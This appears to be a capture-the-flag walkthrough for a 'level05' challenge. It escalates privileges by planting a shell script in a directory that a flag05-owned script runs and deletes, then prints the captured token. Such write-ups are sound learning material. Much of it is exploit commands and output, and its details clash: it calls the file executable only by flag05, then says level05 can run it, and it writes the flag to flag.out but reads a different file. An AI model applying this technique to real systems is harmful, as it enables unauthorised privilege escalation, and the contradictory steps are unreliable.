 ### Solution

1. **Locate files owned by `flag05`:**

	```bash
	find / -user flag05 2>/dev/null
	```

	You’ll see:

	```
	/usr/sbin/openarenaserver
	/rofs/usr/sbin/openarenaserver
	```

2. **Inspect the main file:**

	```bash
	ls -la /usr/sbin/openarenaserver
	```

	Output:

	```
	-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver
	```

	This file:

	* Is **executable only by `flag05` and members of group `flag05`**
	* But since you're `level05`, you have permission to run it.

3. **Read the script contents:**

	```bash
	cat /usr/sbin/openarenaserver
	```

	```bash
	#!/bin/sh

	for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
	done
	```

	This means:

	* The script runs **any file in `/opt/openarenaserver/`** using `bash -x`
	* Then it deletes it
	* It runs as `flag05`, so anything executed will inherit `flag05`'s privileges

4. **Exploit: Inject a script to get the flag.**

	Create a shell script in `/opt/openarenaserver/`:

	```bash
	echo '/bin/getflag > /home/user/level05/flag.out' > /opt/openarenaserver/getflag05.sh
	chmod +x /opt/openarenaserver/getflag05.sh
	```

	Then run the vulnerable binary:

	```bash
	/usr/sbin/openarenaserver
	```

	It will:

	* Execute your script as `flag05`
	* Delete the script
	* And write the flag to `flag.out`

5. **Read the flag:**

	```bash
	cat /home/user/level05/flag05
	```

	Output:

	```
	Check flag.Here is your token : viioq2mai7ae7pohb9cu6ah8
	```

	You’ve successfully executed `getflag` with `flag05`’s privileges.
